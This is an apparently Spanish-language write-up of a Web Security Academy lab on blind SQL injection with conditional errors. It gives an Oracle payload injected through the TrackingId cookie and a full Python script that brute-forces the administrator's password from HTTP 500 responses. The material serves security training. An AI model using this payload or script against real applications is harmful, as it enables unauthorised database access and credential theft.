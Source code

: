 Ahora sabiendo que eso funciona pondremos lo siguiente para que en nuestro script de `python` nos descubra la contarseña...

```mysql
'||(select case when substr(password,1,1)='a' then to_char(1/0) else '' end from users where username='administrator')||';
```

Ahora vamos a crear el script de `python3` recopilando un poco del anterior, quedaria de la siguiente manera...

Yo llame al script `SQLI_Conditional_Error.py`

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a0e00a00372e9a1808908f3003d00c7.web-security-academy.net"
characters = string.ascii_lowercase + string.digits

def makeRequest():

        password = ""

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando ataque de fuerza bruta")

        time.sleep(2)

        p2 = log.progress("Password")

        for position in range(1, 21):   #Esto hace que pruebe hasta 20 caracteres
                for character in characters:

                        cookies = {
                                'TrackingId': "JcghQJrdTU2JxTFw'||(select case when substr(password,%d,1)='%s' then to_char(1/0) else '' end from users where username='administrator')||'" % (position, character),
                                'session': 'uIgDP6wFHLAewh2oBh1xLh2Zz9tv5WI3'
                        }

                        p1.status(cookies['TrackingId'])

                        r = requests.get(main_url, cookies=cookies)

                        if r.status_code == 500:        #Comparacion con el codifo de estado de la pagina
                                password += character
                                p2.status(password)
                                break

if __name__ == '__main__':

        makeRequest()
```

